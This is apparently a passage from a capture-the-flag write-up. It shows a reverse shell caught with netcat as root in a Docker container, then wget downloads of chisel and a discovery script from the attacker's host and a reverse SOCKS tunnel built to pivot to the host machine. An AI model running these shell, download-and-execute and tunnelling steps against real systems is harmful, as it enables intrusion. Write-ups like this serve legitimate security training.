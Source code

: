 ```bash
❯ nc -nlvp 3333
10.10.11.130 - - [04/Jun/2022 19:23:56] "GET /Exploits/reverse_tcp HTTP/1.1" 200 -
Connection from 10.10.11.130:50470
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend# hostname -I
hostname -I
172.19.0.2 
```
We obtained a user shell as `root` but we are not on the main machine, we are in a container with IP `127.19.0.2`.

## Privilege escalation
### Pivoting to host
In order to escalate privileges we need to be aware that we are into a docker, this means that, even if we are root, we still need to access the real machine, with IP `10.10.11.130`. Looking after the user flag we found it at `/home/augustus`, but if we check the `/etc/passwd` file:
```bash
root@3a453ab39d3d:~# cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
```
We see that there is no user `augustus`, then... who is the owner of `/home/augustus`:
root@3a453ab39d3d:/home/augustus# ls -lad /home/augustus
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 /home/augustus
```
A user with UID `1000`, but there is no user with that UID in this docker:
```bash
root@3a453ab39d3d:/home/augustus# cat /etc/passwd | grep "1000"
root@3a453ab39d3d:/home/augustus# 
```
So we can guess that the folder `/home/augustus` is mounted from the host machine, to check it:
```bash
root@3a453ab39d3d:/home/augustus# mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```
We were right. Since the only open port was p80, we cannot use ssh to try to achieve connection to the host machine. So the best we can do is use `chisel` to perform an nmap on the host machine through the docker:
```bash
# My machine before connection
❯ ./chisel server --port 4444 --reverse
2022/06/04 19:51:12 server: Reverse tunnelling enabled
2022/06/04 19:51:12 server: Fingerprint XYG9c21EJmNbbwIuDG3ISRdnxrWZCmsjKJ4COByT/bE=
2022/06/04 19:51:12 server: Listening on http://0.0.0.0:4444
# Docker
root@3a453ab39d3d:/tmp# wget 10.10.16.2:4444/chisel
root@3a453ab39d3d:/tmp# chmod +x chisel
root@3a453ab39d3d:/tmp# ./chisel client 10.10.16.2:4444 R:socks
2022/06/04 17:51:43 client: Connecting to ws://10.10.16.2:4444
2022/06/04 17:51:43 client: Connected (Latency 35.712797ms)
# My machine after connection
2022/06/04 19:51:43 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
Now that we have configured a chisel tunnel, we can perform a nmap scan via proxychains. But first, we need to know what local IP is assigned to the host machine in the docker's localhost, to do so we will use the following utility:
```bash
root@3a453ab39d3d:/tmp# wget 10.10.16.2:4444/hostDiscovery
root@3a453ab39d3d:/tmp# cat hostDiscovery 
#!/bin/bash

```